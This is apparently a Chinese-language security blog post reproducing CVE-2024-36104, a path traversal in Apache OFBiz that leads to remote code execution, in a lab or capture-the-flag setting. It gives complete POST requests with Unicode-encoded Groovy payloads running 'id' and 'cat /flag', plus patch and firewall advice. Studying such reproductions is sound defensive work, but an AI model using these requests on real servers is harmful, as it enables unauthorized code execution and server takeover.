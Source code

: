 #  Apache OFBiz 路径遍历漏洞（CVE-2024-36104）   
原创 清欢予  秋风有意染黄花   2025-05-07 06:28  
  
   
   
微信公众号：【秋风有意染黄花】  
  
   
   
分享安全学习的心得和笔记。问题与建议，请公众号留言或私信。  
  
****  
**前言**  
Apache OFBiz 是一款开源的企业资源计划（ERP）系统。Apache OFBiz 对 URL 中特殊编码字符限制不当，导致存在路径遍历漏洞。攻击者可以利用该漏洞构造恶意请求，实现远程代码执行，最终导致服务器失陷。CVE-2024-36104 是一个高危漏洞，主要影响 Apache OFBiz 18.12.14 之前的版本。 实验环境 环境下载：https://downloads.apache.org/ofbiz/工具：burpsuite 漏洞复现  1.搭建实验环境。a.可以自行下载Apache OFBiz 18.12.14 到本地，搭建到虚拟机中。b.使用网上的免费靶场，开启CVE-2024-36104靶场环境。  
2.访问实验环境，进入登录界面。  
如访问：https://localhost:32265/webtools/control/ProgramExport3.使用burpsuite抓取数据包，并修改，加入POC。POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1Host: your-ipUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0Content-Type: application/x-www-form-urlencodedgroovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0069\u0064\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003byour-ip：根据实际情况填写。groovyProgram：包含Groovy 代码，并进行Unicode编码，以上编码解码后为 throw new Exception('id'.execute().text); 。4.构造POC，获取flag。throw new Exception('cat /flag'.execute().text); POST /webtools/control/forgotPassword/%2e/%2e/ProgramExport HTTP/1.1Host: localhost:25071User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0Content-Type: application/x-www-form-urlencodedgroovyProgram=\u0074\u0068\u0072\u006F\u0077\u0020\u006E\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006F\u006E\u0028\u0027\u0063\u0061\u0074\u0020\u002F\u0066\u006C\u0061\u0067\u0027\u002E\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002E\u0074\u0065\u0078\u0074\u0029\u003B注：your-ip需要根据实际情况填写，某些靶场可能要求使用localhost才能访问，即抓包后修改your-ip为localhost。 漏洞修复 1、官方已发布新版本修复该漏洞，受影响用户应尽快更新 Apache OFBiz 服务器至 18.12.14 或更高版本。下载链接为：https://ofbiz.apache.org/download.html。2、修改防火墙策略，关闭非必要的应用端口或服务，减少攻击面。 总结 回顾以上实验过程，主要是因为Apache OFBiz 对 URL 中特殊编码字符限制不当导致存在路径遍历漏洞。CVE-2024-36104漏洞为高危漏洞，如果在实际工作环境中存在此漏洞，建议相关系统尽快进行升级修复。免责声明我们本着技术分享的原则，分享学习心得和工具掌握，请勿将其用于任何非授权的行为，请严格遵守国家信息安全法。任何违反法律、法规的行为，均与本人无关。建议所有的操作在虚拟机中进行，自己搭建实验环境，安全性自检。若是有违规的地方，请联系删除。  
  
  
